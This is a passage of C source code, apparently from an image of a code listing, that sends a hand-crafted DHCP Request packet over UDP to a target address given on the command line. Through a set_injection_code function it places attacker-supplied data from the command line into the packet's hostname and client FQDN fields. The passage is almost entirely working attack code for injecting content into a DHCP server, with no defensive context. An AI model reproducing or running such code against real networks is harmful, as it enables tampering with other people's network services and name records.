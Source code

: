 ```c
    if (WSAStartup(MAKEWORD(2, 2), &wsa_data) != 0)
        error_handling("WSA startup error!");
    send_sock = socket(PF_INET, SOCK_DGRAM, 0);
    if (send_sock == INVALID_SOCKET)
        error_handling("socket error!");
    memset(&send_addr, 0, sizeof(send_addr));
    send_addr.sin_family = AF_INET;
    send_addr.sin_addr.s_addr = inet_addr(argv[1]);
    send_addr.sin_port = htons(dhcp_port);

    if (connect(send_sock, (SOCKADDR*)&send_addr, sizeof(send_addr)) == SOCKET_ERROR)
        error_handling("connect error!");

    set_boost_custom(boost_custom_ptr, sizeof(boost_custom_o));
    set_mac_address(boost_custom_ptr);
    set_ip_address(boost_custom_ptr);
    set_injection_code(boost_custom_ptr, argv[2], strlen(argv[2]));
    send(send_sock, (const char *)&boost_custom_o, sizeof(boost_custom_o), 0);
    return 0;
}
void error_handling(char * message)
{
    fputs(message, stderr);
    fputc('\n', stderr);
    exit(1);
}
void set_boost_custom(struct boost_custom * boost_custom_p, int boost_custom_size)
{
    memset(boost_custom_p, 0, boost_custom_size);
    boost_custom_p->Message_type = 1;
    boost_custom_p->Hardware_type = 1;
    boost_custom_p->Hardware_address_length = 6;
    boost_custom_p->Hops = 0x00;
    boost_custom_p->Transaction_ID = htonl(0x5a4f1782);
    boost_custom_p->Seconds_elapsed = 0x0000;
    boost_custom_p->Bootp_flags = 0x0000;
    boost_custom_p->Client_IP_address = htonl(INADDR_ANY);
    boost_custom_p->Your_client_IP_address = htonl(INADDR_ANY);
    boost_custom_p->Next_server_IP_address = htonl(INADDR_ANY);
    boost_custom_p->Relay_agent_IP_address = htonl(INADDR_ANY);
    boost_custom_p->Magic_cookie = htonl(0x63825363);
    boost_custom_p->Option_type32 = 0x35;
    boost_custom_p->Option_length32 = 0x01;
    boost_custom_p->DHCP_Request32 = 0x03;
    boost_custom_p->Option_type61 = 0x3d;
    boost_custom_p->Option_length61 = 0x07;
    boost_custom_p->Hardware_type_Ethernet61 = 0x01;
    boost_custom_p->option_type50 = 0x32;
    boost_custom_p->option_length50 = 0x04;
    boost_custom_p->option_type12 = 0x0c;
    boost_custom_p->option_length12 = NAMESIZE;
    boost_custom_p->option_type81 = 0x51;
    boost_custom_p->option_length81 = 0x03 + NAMESIZE;
    boost_custom_p->flags81 = 0x00;
    boost_custom_p->a_rr_result81 = 0x00;
    boost_custom_p->ptr_rr_result81 = 0x00;
    boost_custom_p->option_type60 = 0x3c;
    boost_custom_p->option_length60 = 0x08;
    boost_custom_p->vendor_class_identifier_msft60[0] = 0x4d;
    boost_custom_p->vendor_class_identifier_msft60[1] = 0x53;
    boost_custom_p->vendor_class_identifier_msft60[2] = 0x46;
    boost_custom_p->vendor_class_identifier_msft60[3] = 0x54;
    boost_custom_p->vendor_class_identifier_msft60[4] = 0x20;
```